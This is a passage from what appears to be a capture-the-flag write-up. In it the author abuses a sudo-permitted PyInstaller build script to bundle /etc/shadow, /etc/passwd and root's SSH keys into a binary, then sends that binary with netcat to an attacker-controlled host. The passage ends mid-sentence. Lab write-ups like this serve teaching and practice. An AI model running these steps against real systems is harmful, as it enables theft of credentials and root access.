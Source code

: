 ```
    console=True,
    disable_windowed_traceback=False,
    argv_emulation=False,
    target_arch=None,
    codesign_identity=None,
    entitlements_file=None,
)

```

#### Modify Spec

I don’t have permissions to edit this file, but I’ll copy it to another file, and edit it to include some `datas`:

```

    ...[snip]...
    datas=[('/etc/shadow', '.'), ('/etc/passwd', '.'), ('/root/*', '.'), ('/root/.ssh/*', '.')],
    ...[snip]...

```

Now I’ll run that:

```

tkeller@socket:~$ sudo build-installer.sh build /tmp/0xdf.spec 
267 INFO: PyInstaller: 5.6.2
...[snip]...

```

It runs without issue.

#### Exfil

I’ll exfil the binary back to my host with `nc`:

```

tkeller@socket:~$ cat /opt/shared/dist/qreader | nc 10.10.14.6 443

```

At my host:

```

oxdf@hacky$ nc -lnvp 443 > modfile
Listening on 0.0.0.0 443
Connection received on 10.10.11.206 40194
^C

```

This just hangs, so after a few seconds, I’ll kill it, and check the hashes of each:
